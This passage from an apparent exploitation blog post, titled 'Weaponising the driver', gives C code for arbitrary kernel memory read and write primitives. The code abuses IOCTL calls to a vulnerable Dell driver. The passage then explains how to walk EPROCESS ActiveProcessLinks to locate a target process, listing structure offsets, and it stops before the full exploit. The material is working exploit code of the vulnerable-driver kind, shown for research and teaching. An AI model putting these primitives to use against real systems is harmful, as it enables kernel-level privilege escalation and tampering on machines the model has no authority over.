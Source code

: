 ## Weaponising the driver
Looking at the source code we can copy the read and write primitives (I'm to lazy to find and then burn a driver Nday for a blog :D ):
```c
struct DellBuff {
	ULONGLONG pad1 = 0x4141414141414141;
	ULONGLONG Address = 0;
	ULONGLONG three1 = 0x0000000000000000;
	ULONGLONG value = 0x0000000000000000;
} DellBuff;

DWORD64 DellRead(VOID* Address) {
	struct DellBuff ReadBuff = {};
	ReadBuff.Address = (DWORD64)Address;
	DWORD BytesRead = 0;
	BOOL success = DeviceIoControl(hDevice, 0x9B0C1EC4, &ReadBuff, sizeof(ReadBuff), &ReadBuff, sizeof(ReadBuff), &BytesRead, NULL);
	if (!success) {
		printf("Memory read failed. 1\n");
		CloseHandle(hDevice);
	}

	//printf("%d\n", BytesRead);
	return ReadBuff.value;
}


VOID DellWrite(VOID* Address, LONGLONG value) {
	struct DellBuff WriteBuff = {};
	WriteBuff.Address = (DWORD64)Address;
	WriteBuff.value = value;
	DWORD BytesRead = 0;
	BOOL success = DeviceIoControl(hDevice, 0x9B0C1EC8, &WriteBuff, sizeof(WriteBuff), &WriteBuff, sizeof(WriteBuff), &BytesRead, NULL);
	if (!success) {
		printf("Memory read failed. 2\n");
		CloseHandle(hDevice);
	}
	//printf("%d\n", BytesRead);
}
```

Unlike windbg we are not able to find the eprocess of random processes instead we have to traverse them via the ActiveProcessLinks element of the EProcess structure. We can then check the PID to make sure it is the right process:

```
+0x1d0 UniqueProcessId  : Ptr64 Void
+0x1d8 ActiveProcessLinks : _LIST_ENTRY
```

We can use NtQuerySystemInformation to get the base of the eprocess structure for the kernel then iterate from there using the read primitive.
